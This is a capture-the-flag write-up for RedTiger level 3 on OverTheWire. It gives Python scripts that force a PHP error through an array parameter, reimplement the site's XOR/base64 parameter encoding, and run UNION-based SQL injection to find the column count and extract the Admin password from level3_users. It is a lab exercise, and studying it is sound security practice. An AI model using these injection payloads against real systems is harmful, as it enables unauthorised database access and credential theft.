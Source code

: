 ================================================================================================================
[redtiger] level3
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="?usr[]=",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

Target: Get the password of the user Admin.
Hint: Try to get an error. Tablename: level3_users


Show userdetails: 
TheCow
Admin

.. code-block:: html

    Show userdetails: 
    <a href="?usr=MTQ4MTY4MTY1MTMxMTc1MTgz">TheCow</a>
    <a href="?usr=MTI5MTY0MTczMTY5MTc0">Admin</a>

    <form method="post">
        Username: <input type="text" name="user">
        Password: <input type="text" name="password">
        <input type="submit" name="login" value="Login">
    </form>
    

|

Array Injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    # []
    payload = {
        "usr[]": ""
    }

    r = requests.post(url, cookies=cookies, params=payload, verify=False)

    print r.content


[error page]

.. code-block:: html

    Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

|

.. code-block:: php

    <?php
            
        function encrypt($str)
        {
            $cryptedstr = "";
            for ($i =0; $i < strlen($str); $i++)
            {
                $temp = ord(substr($str,$i,1)) ^ 192;
                
                while(strlen($temp)<3)
                {
                    $temp = "0".$temp;
                }
                $cryptedstr .= $temp. "";
            }
            return base64_encode($cryptedstr);
        }
      
        function decrypt ($str)
        {
            if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
            {
                $str = base64_decode($str);
                if ($str != "" && $str != null && $str != false)
                {
                    $decStr = "";
                    
                    for ($i=0; $i < strlen($str); $i+=3)
                    {
                        $array[$i/3] = substr($str,$i,3);
                    }

                    foreach($array as $s)
                    {
                        $a = $s^192;
                        $decStr .= chr($a);
                    }
                    
                    return $decStr;
                }
                return false;
            }
            return false;
        }
    ?>

|

.. code-block:: python

    import base64

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)


|

Column Length
================================================================================================================

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "usr": encrypt("' union select %s from level3_users-- " % str(n))
        }
        print "' union select %s from level3_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content and bef_ret!='':
            print r.content

        bef_ret = r.content




|

Data Extract
================================================================================================================



.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }


    params = {
        "usr": encrypt("' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- ")
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content
